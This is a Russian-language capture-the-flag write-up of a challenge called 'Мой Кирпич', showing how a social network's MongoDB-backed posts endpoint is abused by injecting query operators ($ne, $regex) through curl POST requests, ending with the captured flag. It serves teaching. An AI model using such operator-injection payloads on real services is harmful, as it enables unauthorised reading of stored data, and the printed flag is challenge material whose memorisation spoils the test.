 # Мой Кирпич: Write-up

Перед нами социальная сеть. Мы можем видеть пять последних постов в целом, пять последних постов конкретного автора или добавлять новые посты.

Зайдём в Консоль разработчика в браузере и изучим, как возвращаются посты. Видим, что с сервера приходит JSON-массив из объектов постов:

```json
[
    {
        "_id": "5ebabc206ec49991593527f9",
        "author": "ivan",
        "text": "Я сегодня поработал на стройке новой школы, не отдавайте туда своих детей никогда!",
        "date": "2020-04-16 05:00:19.193000"
    }, 
    ...
]
```

С полями `author`, `text` и `date` всё понятно, а вот поле `_id` привлекает внимание: у него довольно нестандартное название и интересный формат. Поискав по запросу `database "_id"`, приходим к выводу, что это скорее всего MongoDB.

Обратим внимание на форму поиска по автору и на запрос, который она делает. Запрос уходит в тот же эндпоинт `articles`, только на этот раз это POST-запрос, в теле которого передаётся JSON-объект:

```json
{"author":"ivan"}
```

Если мы посмотрим на [формат запросов поиска в MongoDB](https://docs.mongodb.com/manual/reference/method/db.collection.find/#examples), то заметим, что они выглядят как обычные JSON-объекты. Интересно, как сервер обрабатывает пришедший запрос?

Проверим это, например, передав лишний параметр:

```
$ curl -X POST -H "Content-Type: application/json" https://mybrick.q.2020.ugractf.ru/943a294a82819e3defdef052640c2989/articles --data '{"author": "ivan", "bad": true}'
[]
```

Ничего не нашлось. Вероятно, наше поле попало в запрос. Более сложные условия, чем сравнения, в MongoDB выполняются с помощью [*операторов запроса*](https://docs.mongodb.com/manual/reference/operator/). Попробуем, например, оператор `$ne` — неравенство:

```
$ curl -X POST -H "Content-Type: application/json" https://mybrick.q.2020.ugractf.ru/943a294a82819e3defdef052640c2989/articles --data '{"author": {"$ne": "ivan"}}'
```

В ответ приходят 5 постов — действительно, мы не видим пост Ивана, но видим ещё один пост от `nagibator1972`. Можно воспользоваться оператором `$nin` и исключить все лишние записи, а можно воспользоваться оператором `$regex` — пост с флагом, скорее всего, содержит `ugra`:

```
$ curl -X POST -H "Content-Type: application/json" https://mybrick.q.2020.ugractf.ru/943a294a82819e3defdef052640c2989/articles --data '{"text": {"$regex": "ugra"}}'
```

Мы сразу же получаем пост с флагом.

Флаг: **ugra_escape_not_only_sql_48ae250f3a82**
